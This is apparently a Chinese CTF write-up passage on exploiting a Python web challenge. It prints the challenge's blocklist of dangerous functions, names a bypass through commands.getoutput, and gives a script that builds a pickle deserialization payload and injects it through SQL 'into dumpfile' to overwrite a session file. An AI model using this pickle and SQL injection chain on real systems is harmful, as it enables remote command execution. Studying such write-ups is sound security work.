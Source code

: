 ### 利用

题目还存在一处hook对session内容进行过滤:

```python
black_type_list = [map, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen,platform.popen]


def _hook_call(func):
    def wrapper(*args, **kwargs):
        session['cnt'] += 1
        for i in args[0].stack:
            if i in black_type_list:
                raise FilterException(args[0].stack[-2])
            if session['cnt'] > 4:
                raise TimesException()
        return func(*args, **kwargs)
    return wrapper
```

这个过滤bypass参考一叶飘零师傅博客:

```
subprocess.Popen
subprocess.call
commands
commands.getoutput
```

还有一些绕过方法: https://github.com/0xs1riu5/Writeup/tree/master/0x05Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E

生成payload:

```python
#encoding=utf-8
import pickle
import commands
from hashlib import md5

class genpoc(object):
    def __reduce__(self):
        cmd = 'touch /tmp/I_Got_the_flag'
        s = "__import__('os').popen('{}').read()".format(cmd)
        return (commands.getoutput, (s,))

poc = pickle.dumps(genpoc())
pochex=''
for i in range(len(poc)):
    pochex=pochex+hex(ord(poc[i]))[2:]
print('select/**/0x' + pochex.upper() + "/**/into/**/dumpfile/**/'/tmp/" + md5('bdwsessions4cc4e630-1e34-446a-9f59-c1c2b7776a89').hexdigest() + "'")
```
